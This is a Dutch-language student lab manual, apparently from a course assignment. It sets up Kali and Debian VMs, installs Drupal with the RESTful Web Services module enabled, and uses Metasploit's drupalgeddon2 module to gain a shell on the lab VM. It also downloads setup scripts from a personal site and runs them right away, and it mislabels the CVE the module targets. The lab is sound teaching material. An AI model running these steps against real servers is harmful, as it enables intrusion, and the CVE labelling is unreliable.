 # CSV-NPE-2223

Cybersecurity &amp; Virtualisation - NPE Opdracht 2022-2023

# Deployment manual

## Table of Contents

- [1. VM installaties](#1-vm-installaties)
- [2. Drupal installatie](#2-drupal-installatie)
- [3. Metesploit](#3-metesploit)
- [4. Demo](#4-demo)

## 1. VM installaties

### Informatie

- De VM's zijn geconfigureerd met een bridged adapter
- De installatie vereist een internet connectie

### Setup op host machine

- Download volgende vdi-bestanden van osboxes.org:

  - [Kali Linux 2022.3](https://sourceforge.net/projects/osboxes/files/v/vb/25-Kl-l-x/2022.3/64bit.7z/download)
  - [Debian 11 - Desktop](https://sourceforge.net/projects/osboxes/files/v/vb/14-D-b/11/Workstation/64bit.7z/download)

- Unzip de vdi-bestanden rechtstreeks in de download folder de huidige gebruiker
- Check of de vdi-bestanden de volgende namen hebben:

  - Kali Linux 2022.3 (64bit).vdi
  - Debian 11 (64bit).vdi

- Voer de volgende commando's uit in powershell op de host machine:

  ```powershell
    curl https://jobbe.be/csv-npe-2223/vm-install.sh -out vm-install.ps1
    ./vm-install.ps1
  ```

## 2. Drupal installatie

### Drupal 7.x en 8.x - - RESTful Web Services unserialize() Remote Command Execution [Exploit](https://nvd.nist.gov/vuln/detail/CVE-2019-6340)

### Informatie

- De exploit is beschikbaar op [exploit-db](https://www.exploit-db.com/exploits/46510)
- De exploit veroorzaakt een unserialize() fout in de `Drupal 7/8 RESTful Web Services` module, waardoor we een remote command execution kunnen uitvoeren
- Deze manual gebruikt de `drupal_drupalgeddon2` [module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/drupal_drupalgeddon2.md) van metasploit om de exploit uit te voeren.

### Setup op Debian VM

- Log in op de Debian VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Installeer de mysql repository en selecteer in de prompt `debian buster` en en `mysql-5.7` als versie van mysql:

  ```bash
    wget https://dev.mysql.com/get/mysql-apt-config_0.8.18-1_all.deb
    sudo dpkg -i mysql-apt-config_0.8.18-1_all.deb
  ```

- Download en run het installatie script:

  ```bash
    wget https://jobbe.be/csv-npe-2223/drupal-install.sh
    chmod +x drupal-install.sh
    sudo ./drupal-install.sh
  ```

- Na de installatie is drupal beschikbaar op `http://localhost/index.php`
- Configureer Drupal met de volgende gegevens:

  - Database name: `drupal`
  - Database username: `drupal`
  - Database password: `password`
  - Site name: `drupal`
  - Site email address: `drupal@localhost.be`
  - Username: `drupal`
  - Password: `drupal`
  - Default country: `Belgium`
  - Default timezone: `Europe/Brussels`

- Verwijder de standaard web pagina in /var/www/html:

  ```bash
    sudo rm -rf /var/www/CybersecurityNPE2023.local/index.html
  ```

- Activeer de volgende modules onderaan in de `Modules` pagina van Drupal:

  - `Entity API`
  - `RESTful Web Services`

- Check het ip-adres van de Debian VM met het volgende commando:

  ```bash
    ip a
  ```

## 3. Metesploit

### Exploit op Kali VM

- Log in op de Kali VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Open een terminal en voer volgende commando's uit:

  ```bash
    sudo msfdb init
    sudo msfconsole
  ```

- Voer volgende commando's uit in de metasploit console om de host te in te stellen (vervang xxx.xxx.xxx.xxx met het ip-adres van de Debian VM):

  ```bash
    use exploit/unix/webapp/drupal_drupalgeddon2
    set RHOSTS xxx.xxx.xxx.xxx
    set VERBOSE true
    check
  ```

- Voer volgende commando's uit in de metasploit console om de exploit uit te voeren:

  ```bash
    run
  ```

- Als de exploit succesvol is uitgevoerd, kan je een shell openen met volgende commando's:

  ```bash
    whoami
    ls
  ```

### 4. Demo

https://hogent.cloud.panopto.eu/Panopto/Pages/Viewer.aspx?id=294bbaaf-9e7a-4abc-87e6-b0030132dae7
